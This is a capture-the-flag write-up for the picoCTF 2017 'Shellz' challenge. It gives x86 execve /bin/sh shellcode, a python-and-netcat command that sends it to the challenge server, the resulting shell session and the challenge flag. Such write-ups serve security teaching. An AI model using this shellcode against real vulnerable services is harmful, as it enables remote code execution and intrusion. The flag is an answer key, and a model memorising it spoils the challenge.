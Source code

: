 ### Shellz - 55 points

> You no longer have an easy thing to call, but you have more space. Program: shellz! Source. Connect on shell2017.picoctf.com:34621.

Hint:
> There is a bunch of preexisting shellcode already out there!

We are presented with a piece of code, that as string that we can overflow. This string will read from our input (stuff), and will be used to create a function pointer that will be called.
```c
int len = read(STDIN_FILENO, stuff, AMOUNT_OF_STUFF);
...
void (*func)() = (void (*)())stuff;
    func();
```
The hint tell us that we should use preexisting shellcode, in order to get a shell.
There are a lot of shellcode around the web, and most of them will work (as long as it's below 40 bytes).
I'll be using this one:
```
\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80
```
Now we can just pass it, using python:
```
(python -c "print '\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80'"; cat) | nc shell2017.picoctf.com 34621
```
Keep in mind that we need to pass the cat command so the pipe doesn't close.

After that, we have a shell. We can just pass commands.
```
(python -c "print '\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x
69\x6e\x89\xe3\xb0\x0b\xcd\x80'"; cat) | nc shell2017.picoctf.com 34621                           
My mother told me to never accept things from strangers                                           
How bad could running a couple bytes be though?                                                   
Give me 40 bytes:                                                                                 
ls                                                                                                
flag.txt                                                                                          
shellz                                                                                            
shellz_no_aslr                                                                                    
xinetd_wrapper.sh                                                                                 
cat flag.txt                                                                                      
f6f01bf0649b5aa5ec299bb51c8f8db4 
```

Flag:
```
f6f01bf0649b5aa5ec299bb51c8f8db4
```